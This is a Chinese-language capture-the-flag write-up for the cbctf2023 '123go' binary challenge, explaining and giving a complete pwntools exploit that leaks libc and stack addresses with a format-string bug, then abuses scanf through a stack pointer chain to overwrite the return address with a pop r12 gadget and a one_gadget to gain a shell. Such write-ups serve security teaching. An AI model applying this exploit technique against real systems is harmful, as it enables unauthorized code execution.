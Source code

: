 ```yaml
---
title: cbctf2023 - 123go 
date: 2024/4/22 00:30:00
updated: 2024/7/25 12:34:56
tags:
    - fmt-string
excerpt: 通过利用格式字符串和scanf漏洞，成功控制返回地址，实现代码执行。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.31-0ubuntu9.14|

## 解题思路

一次printf，两次scanf，每次16字节，颇有一点难度  
我一看栈的地址，因为ASLR的存在乱跳，不方便硬编码；写2个字节吧，又没有机会leak libc；
因为栈上有跳板`ptr1->ptr2->char[]str`，因此可以`*ptr1=ptr2x->retAddr`（打moectf打的），
然后再`*ptr2x=oneGadget`控制返回流为ogg；但是我检查限制条件时，发现让`r12 == 0`不满足，
故先写`pop r12;ret`的地址到返回地址上，跟一个`p64(0)`，把让r12改成0，再做ogg；
此时发现，scanf岂不是比%n好用多了？所以第一个scanf改的是跳板，第二个改的是返回地址内容

值得注意的是，scanf("%s")是不按\0截断的，并且也可以用`%8$s`这种方式指定参数序号

## EXPLOIT

```python
from pwn import *

def payload(lo:int):
    global sh
    libc = ELF('./libc-2.31.so')
    if lo:
        sh = process('123go')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('training.0rays.club', 10039)

    # payload 1, leak stack & libc
    sh.sendafter(b'name:', b'%11$p%13$p')

    sh.recvuntil(b'llo:') # skip
    libcstartmain = int(sh.recv(14).decode(), 16)
    libcBase = libcstartmain - 243 - libc.symbols['__libc_start_main']
    print('libc leaked')

    stack = int(sh.recv(14).decode(), 16)
    retAddr = stack - 0x648 + 0x558
    print('stack leaked')

    if libcBase & 0xfff:
        print(f'Invalid libcBase ({hex(libcBase)})')
        sh.close()
        return False

    sh.sendafter(b'text', b'%13$d')
    input('type <CR> when ready') # avoid input piling
    sh.sendline(str(retAddr & 0xffffffff).encode()) # int is enough
    print('addr sent')

    popR12 = libcBase + 0xc9e91
    oneGadget = libcBase + 0xe3afe
    sh.sendafter(b'text', b'%41$s')
    input('type <CR> when ready')
    sh.sendline(p64(popR12) + p64(0) + p64(oneGadget))
    print('payload sent')

    sh.interactive()
```

